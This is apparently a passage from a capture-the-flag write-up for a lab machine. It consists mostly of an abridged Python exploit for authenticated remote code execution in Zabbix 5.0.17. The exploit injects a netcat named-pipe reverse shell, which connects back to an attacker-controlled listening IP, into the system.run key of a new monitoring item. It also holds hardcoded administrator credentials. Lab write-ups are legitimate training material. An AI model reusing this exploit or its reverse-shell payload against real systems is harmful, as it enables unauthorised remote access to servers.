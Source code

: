 ```bash
➜  Shibboleth searchsploit zabbix | grep "5.0.17"
Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)
```

```python
#!/usr/bin/python3

import sys
import requests
import re
import random
import string
import colorama
from colorama import Fore

def item_name() :
    letters = string.ascii_letters
    item =  ''.join(random.choice(letters) for i in range(20))
    return item

if len(sys.argv) != 1 :
    print(Fore.RED +"[!] usage : ./expoit.py")
    sys.exit(-1)

url  = '10.10.11.124'
username = 'Administrator'
password = 'ilovepumkinpie1'
host = '10.10.14.46' # Listening IP
port = 9090 # listening port

...
# I snipped out a bunch of the input validation code for this post, just to focus on the actual exploit
...

# named pipe netcat reverse shell... can sub this with a PS rev shell for windows hosts...
command=f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {host} {port}  >/tmp/f"

payload = f"system.run[{command},nowait]"
Random_name = item_name()
data2 ={

# exploit lies in uploading the reverse shell in the key field on the items.php page.

"sid":sid,"form_refresh":"1","form":"create","hostid":hostId,"selectedInterfaceId":"0","name":Random_name,"type":"0","key":payload,"url":"","query_fields[name][1]":"","query_fields[value][1]":"","timeout":"3s","post_type":"0","posts":"","headers[name][1]":"","headers[value][1]":"","status_codes":"200","follow_redirects":"1","retrieve_mode":"0","http_proxy":"","http_username":"","http_password":"","ssl_cert_file":"","ssl_key_file":"","ssl_key_password":"","interfaceid":"1","params_es":"","params_ap":"","params_f":"","value_type":"3","units":"","delay":"1m","delay_flex[0][type]":"0","delay_flex[0][delay]":"","delay_flex[0][schedule]":"","delay_flex[0][period]":"","history_mode":"1","history":"90d","trends_mode":"1","trends":"365d","valuemapid":"0","new_application":"","applications[]":"0","inventory_link":"0","description":"","status":"0","add":"Add"
}

r2 =s.post(url+"/items.php" ,data=data2,headers=headers,cookies={"tab":"0"} )

...
# cut out a bunch of extra unecessary code, all we have to do is run the new item we created at this location
# {url}/items.php?form=update&hostid={hostId}&itemid={itemId}

# Link to the full exploit: https://www.exploit-db.com/exploits/50816
```